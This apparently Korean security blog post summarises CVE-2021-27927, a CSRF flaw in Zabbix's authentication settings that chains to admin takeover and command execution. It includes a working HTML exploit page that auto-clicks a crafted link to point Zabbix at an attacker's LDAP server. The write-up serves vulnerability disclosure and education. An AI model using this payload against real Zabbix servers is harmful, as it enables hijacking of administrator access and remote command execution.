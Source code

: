 ```yaml
---
title: "[하루한줄] CVE-2021-27927: Zabbix에서 발견된 CSRF를 통한 RCE"
author: idioth
tags: [idioth, cve, csrf, rce, zabbix]
categories: [1day1line]
date: 2021-03-15 14:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL 

[CVE-2021-27927: CSRF to RCE Chain in Zabbix](https://movaxbx.ru/2021/03/12/cve-2021-27927-csrf-to-rce-chain-in-zabbix/?utm_source=rss&utm_medium=rss&utm_campaign=cve-2021-27927-csrf-to-rce-chain-in-zabbix)



## Target

- Zabbix version < 4.0.28rc1, 5.0.8rc1, 5.2.4rc1, 5.4.0alpha1



## Explain

기업용 IT 네트워크, 애플리케이션 모니터링 솔루션 Zabbix에서 CSRF 취약점이 발견되었습니다. 취약점은 Zabbix UI의 인증 부분에 존재하며, CSRF를 통해 인증되지 않은 사용자가 Zabbix 관리자가 악성 링크를 접속하도록 유도하여 관리자 권한을 획득할 수 있습니다. 취약점은 [`SameSite=Lax` 쿠키 보호](https://www.hahwul.com/2020/01/18/samesite-lax/)가 적용된 경우에도 모든 브라우저에서 악용될 수 있습니다.

Zabbix는 request body의 `sid` 파라미터에 anti-CSRF 토큰을 사용하여 CSRF 공격을 방지합니다. 하지만 애플리케이션의 인증 설정 업데이트 부분에서 anti-CSRF 토큰을 사용하지 않습니다. 또한 Zabbix는 POST request의 모든 파라미터를 GET을 통해 URL 쿼리 파라미터로 전달할 수 있습니다. 따라서 인증 설정 업데이트 부분에서 GET request를 전송하면, `sid` 파라미터가 없어도 처리됩니다.

취약점을 트리거하는 순서는 다음과 같습니다.

1. 타깃 Zabbix 애플리케이션에 접근할 수 있는 LDAP 서버를 설정합니다.

2. 악성 HTML 페이지를 삽입한 웹 사이트를 호스팅 합니다. 아래는 exploit 코드의 예제입니다.

   ```
   <html>
   <body>
   
     <p>Any web site</p>
     <a id='link' href='http://192.168.0.140/zabbix.php?form_refresh=1&action=authentication.update&db_authentication_type=0&authentication_type=1&http_auth_enabled=0&ldap_configured=1&ldap_host=10.0.229.1&ldap_port=389&ldap_base_dn=dc%3Dsmoke%2Cdc%3Dnet&ldap_search_attribute=sAMAccountName&ldap_bind_dn=cn%3DAdmin%2CCN%3DUsers%2CDC%3Dsmoke%2CDC%3Dnet&ldap_case_sensitive=1&action_passw_change=authentication.edit&ldap_test_user=Admin&ldap_test_password=Z@bb1x!&saml_auth_enabled=0&update=Update'></a>
     <script>
       document.getElementById('link').click();
     </script>
   
   </body>
   </html>
   ```

3. Zabbix 관리자가 해당 링크에 접속하면, 인증 설정이 자동으로 업데이트됩니다.

4. 해커의 자격 증명을 통해 관리자로 로그인할 수 있습니다.

해커는 Zabbix에서 인증 설정이 업데이트되면 자격 증명의 유효성 검사를 통해 LDAP 서버에서 CSRF 공격이 성공했는지 확인할 수 있습니다. 또한 관리자로 접근할 시 Zabbix에 내장된 기능을 통해 Zabbix 서버, Zabbix 서버 프록시, Zabbix agent에서 command execution이 가능합니다.

